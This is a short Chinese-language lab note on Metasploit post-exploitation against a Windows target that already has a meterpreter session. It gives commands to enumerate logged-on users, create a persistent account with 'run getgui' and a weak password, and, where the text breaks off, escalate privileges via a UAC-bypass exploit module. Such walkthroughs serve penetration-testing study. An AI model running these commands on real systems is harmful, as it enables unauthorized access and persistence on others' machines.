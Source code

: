 一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：run post/windows/gather/enum_logged_on_users

![[1643108073546.png]]

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

run getgui -u msb -p 123456

run getgui -u {用户名}-p {密码}

进入win的运行输入netplwiz 可以查看账户创建情况

![[1643108092979.png]]

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system）

2.1 绕过UAC提权

use exploit/windows/local/*ask*